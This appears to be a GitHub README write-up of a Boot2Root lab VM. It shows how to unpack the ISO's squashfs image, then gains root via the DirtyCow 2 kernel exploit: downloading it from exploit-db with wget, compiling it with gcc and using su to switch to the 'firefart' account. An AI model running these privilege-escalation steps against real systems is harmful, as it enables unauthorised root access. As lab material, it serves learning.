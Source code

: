 ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
```

## Unsquash

[Squash](https://s3.amazonaws.com/finecooking.s3.tauntonclud.com/app/uploads/2017/04/24170702/ING-butternut-squash-thumb1x1.jpg)

In order to better understand the file structure we can explore the ISO file by simply opening it.

There we find a .squashfs file corresponding to the compressed system.
It is possible to uncompress it in order to explore it:

```unsquashfs -f /Path/to/source/filesystem.squash.fs -d /Path/to/destination```


from there we can freely explore the system 

-----------------------------------------------------------------------------------------


## Privilege escalation

Now that we can connect as a low level user, we can attempt to use existing exploits that will grant us root access. These exploit are possible for certain versions of the kernel/OS/Architecture/distribution/Package_list running the server.

We can write download and execute external scripts in /tmp 

We used an ![existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) in order to recommend exploits from [www.exploit-db.com](https://www.exploit-db.com/) 

One exploit named dirtycow 2 fits perfectly to the VM's specs

- How
  - The In The Wild exploit relied on writing to /proc/self/mem on one side of the race.
  - ptrace(PTRACE_POKEDATA) can write to readonly mappings.
  - The attack relies on racing the madvise(MADV_DONTNEED) system call while having the page of the executable mmapped in memory.

Let's fetch it from within the ssh access ```wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c```

Don't forget to chmod 755 and to compile with ```gcc -pthread dirty.c -o dirty -lcrypt```

Then just run it and provide a new password when prompted and ```su firefart```.

![Congrats](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats.png)

***Congratulations! we just supplanted the root user*** 





  

